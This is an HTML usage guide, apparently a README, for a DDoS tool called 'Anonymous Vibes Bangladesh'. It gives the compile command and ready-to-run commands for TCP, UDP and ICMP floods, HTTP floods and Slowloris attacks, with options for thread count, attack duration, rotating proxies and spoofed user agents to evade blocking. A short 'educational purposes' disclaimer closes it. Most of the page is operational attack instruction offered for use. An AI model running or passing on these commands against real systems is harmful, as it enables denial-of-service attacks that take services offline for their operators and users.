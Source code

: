<!DOCTYPE html>
<html>
<body>
  <h1>Anonymous Vibes Bangladesh DDoS Tool</h1>
  
  <h2>Compilation Instructions (Optional)</h2>
  <pre><code>g++ -o avb-ddos avb-ddos.cpp -lcurl -lpthread</code></pre>

  <h2>Basic Usage Syntax</h2>
  <pre><code>./avb-ddos --target &lt;IP&gt; --port &lt;PORT&gt; --&lt;ATTACK_MODE&gt; [OPTIONS]</code></pre>

  <h2>Attack Modes</h2>
  
  <h3>1. TCP Flood Attack</h3>
  <pre><code>./avb-ddos -t 192.168.1.100 -p 80 --tcp --threads 1000</code></pre>
  <p>Flood TCP port 80 with 1000 concurrent threads</p>

  <h3>2. UDP Flood Attack</h3>
  <pre><code>./avb-ddos --target 10.0.0.5 --port 53 --udp --duration 300</code></pre>
  <p>UDP flood on DNS port (53) for 5 minutes (300 seconds)</p>

  <h3>3. ICMP Flood (Ping Flood)</h3>
  <pre><code>sudo ./avb-ddos -t 203.0.113.25 --icmp --threads 500</code></pre>
  <p>Requires root privileges, floods target with ICMP Echo requests</p>

  <h3>4. HTTP Flood</h3>
  <pre><code>./avb-ddos --target example.com -p 443 --http --proxy proxies.txt --useragents ua.txt</code></pre>
  <p>HTTPS flood using rotating proxies and custom User-Agents</p>

  <h3>5. Slowloris Attack</h3>
  <pre><code>./avb-ddos -t 192.168.1.10 -p 8080 --slowloris --threads 200</code></pre>
  <p>Maintains multiple persistent HTTP connections</p>

  <h2>Advanced Options</h2>
  
  <h3>Using Proxies</h3>
  <pre><code>./avb-ddos -t 10.1.1.1 -p 80 --http --proxy proxies.txt</code></pre>
  <p>Proxy list format (proxies.txt):</p>
  <pre>
http://proxy1:port
socks5://proxy2:port
  </pre>

  <h3>Custom User Agents</h3>
  <pre><code>./avb-ddos --target example.com -p 80 --http --useragents user-agents.txt</code></pre>
  <p>user-agents.txt format (one per line):</p>
  <pre>
Mozilla/5.0 (Windows NT 10.0; Win64; x64)...
Mozilla/5.0 (Linux; Android 10; SM-G980F)...
  </pre>

  <h2>Important Notes</h2>
  <ul>
    <li>🛑 <strong>Requires root privileges for ICMP attacks</strong></li>
    <li>⚠️ <strong>Default thread count: 500</strong></li>
    <li>🔌 <strong>Add --timeout to configure connection timeout (default: 10s)</strong></li>
    <li>⏱️ <strong>Use --duration for timed attacks</strong></li>
  </ul>

  <h2>Legal Disclaimer</h2>
  <p>⚠️ <em>This tool is for educational purposes and authorized testing only. 
  <br>Misuse of this software is strictly prohibited. The developers assume no liability 
  <br>for any unauthorized or illegal use of this tool.</em></p>
</body>
</html>
